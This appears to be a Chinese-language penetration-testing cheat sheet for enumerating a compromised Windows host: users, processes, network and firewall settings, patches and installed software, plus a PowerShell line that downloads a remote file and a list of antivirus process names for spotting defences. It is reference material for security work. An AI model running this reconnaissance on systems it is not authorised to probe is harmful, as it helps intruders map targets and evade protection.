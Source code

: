 # 信息枚举

## 用户

查看当前用户

```
whoami
```

查看所有用户

```
net user
```

查看用户信息

```
net user xxxx
```

查看主机名

```
hostname
```

## 操作系统

```
systeminfo
```

## 查看进程

```
tasklist -V
```

计划任务

```
schtasks /Query /？
```



## 网络信息

```
ipconfig
```

#### 查看路由表

```
route print
```

## 连接信息

```
netstat -ano
```

## 防火墙信息

```
netsh advfirewall +参数
```

> 此上下文中的命令:                                                     
>  ?        - 显示命令列表。                                               
>  consec     - 更改到 `netsh advfirewall consec' 上下文。                                 
>  dump      - 显示一个配置脚本。                                              
>  export     - 将当前策略导出到文件。                                             
>  firewall    - 更改到 `netsh advfirewall firewall' 上下文。                                
>  help      - 显示命令列表。                                               
>  import     - 将策略文件导入当前策略存储。                                           
>  mainmode    - 更改到 `netsh advfirewall mainmode' 上下文。                                
>  monitor     - 更改到 `netsh advfirewall monitor' 上下文。                                
>  reset      - 将策略重置为默认全新策略。                                            
>  set       - 设置每个配置文件或全局设置。                                           
>  show      - 显示配置文件或全局属性。

> ```
> netsh advfirewall show +参数
> ```

> 此上下文中的命令:                                                       
>  show allprofiles - 显示所有配置文件的属性。                                           
>  show currentprofile - 显示活动配置文件的属性。                                          
>  show domainprofile - 显示域配置文件的属性。                                           
>  show global   - 显示全局属性。                                               
>  show privateprofile - 显示专用配置文件的属性。                                          
>  show publicprofile - 显示公用配置文件的属性。                                          
>  show store   - 显示当前交互式会话的策略存储。

**常用命令**

查看防火墙状态

```
netsh advfirewall show currentprofile
```

查看防火墙规则

```
netsh advfirewall firewall show rule name=all
```

## 已安装的应用程序

```
wmic /?
```

```
wmic product get name,version,vendor 
```

## **常规信息搜集**

```
systeminfo						打印系统信息
whoami							获得当前用户名
whoami /priv					当前帐户权限
ipconfig						网络配置信息
ipconfig /displaydns			显示DNS缓存
route print						打印出路由表
arp -a							打印arp表
hostname						主机名
net user						列出用户
net user UserName				关于用户的信息
net use \SMBPATH Pa$$w0rd /u:UserName	连接SMB
net localgroup					列出所有组
net localgroup GROUP			关于指定组的信息
net view \127.0.0.1				会话打开到当前计算机
net session						开放给其他机器
netsh firewall show config		显示防火墙配置
DRIVERQUERY						列出安装的驱动
tasklist /svc					列出服务任务
net start						列出启动的服务
dir /s foo					在目录中搜索包含指定字符的项目
dir /s foo == bar			同上
sc query						列出所有服务
sc qc ServiceName				找到指定服务的路径
shutdown /r /t 0				立即重启
type file.txt					打印出内容
icacls “C:\Example”				列出权限
wmic qfe get Caption,Description,HotFixID,InstalledOn	列出已安装的布丁
(New-Object System.Net.WebClient).DownloadFile(“http://host/file”,”C:\LocalPath”)				利用ps远程下载文件到本地
accesschk.exe -qwsu “Group”	修改对象（尝试Everyone，Authenticated Users和/或Users）
```

## 常见的杀软如下：

```

360sd.exe 360杀毒

360tray.exe 360实时保护

ZhuDongFangYu.exe 360主动防御

KSafeTray.exe 金山卫士

SafeDogUpdateCenter.exe 安全狗

McAfee McShield.exe McAfee

egui.exe NOD32

AVP.exe 卡巴斯基

avguard.exe 小红伞

bdagent.exe BitDefender

```

## **要搜集的信息大致如下几点：**

机器的系统及其版本

机器的打补丁情况

机器安装的服务

机器的防火墙策略配置

机器的防护软件情况sting